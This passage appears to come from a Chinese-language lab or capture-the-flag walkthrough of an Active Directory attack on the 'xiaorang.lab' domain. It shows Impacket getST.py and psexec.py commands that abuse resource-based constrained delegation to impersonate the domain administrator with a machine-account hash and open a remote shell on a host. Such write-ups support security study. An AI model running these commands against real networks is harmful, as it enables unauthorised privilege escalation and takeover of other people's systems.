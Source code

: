 认证成功，已经可以通过S4U访问了，说明设置基于资源的约束委派属性成功了，直接用GetST获取票据

```
python3 getST.py -spn cifs/XR-LCM3AE8B.xiaorang.lab -impersonate administrator -hashes :2f0bbb374a2585c361818cd81fcbe7f5  xiaorang.lab/XR-Desktop\$ -dc-ip 172.22.11.6
```

![image-20241118204735912](images/18.png)

```
export KRB5CCNAME=administrator.ccache 
python3 psexec.py xiaorang.lab/administrator@XR-LCM3AE8B.xiaorang.lab -k -no-pass -target-ip 172.22.11.26 -codec gbk
```

![image-20241118204903877](images/19.png)
